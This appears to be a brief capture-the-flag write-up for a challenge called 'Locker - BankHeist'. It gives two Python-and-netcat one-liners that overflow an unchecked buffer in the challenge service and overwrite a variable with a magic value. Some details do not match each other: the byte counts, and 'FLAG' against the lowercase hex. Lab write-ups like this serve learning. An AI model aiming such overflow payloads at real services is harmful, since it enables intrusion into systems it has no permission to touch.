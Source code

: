 # Locker - BankHeist

Super Easy, 

* Overflow the buffer
* Change Specific Variable in the Buffer


### Step 1
so we can overflow buffer by (as there is no checks and they really want us to do this):

```sh
python -c "print('X'*50)" | nc <ipaddress> <port>
```

### Step 2
Now we also get the binary in the challenge (which I lost somehow after the challenge), but basically it was simple logic.

We needed to change the buffer after 60 bytes to `FLAG` in sequence. 

But there was no check before the overflowed buffer and hence we can change it as we please.

So I ended up filling each 4 byte block with `FLAG` in hex ofc. so it's even easier.
```sh
python -c "print('\x66\x6c\x61\x67'*100)" | nc <ipaddress> <port>

```

And we got the flag.


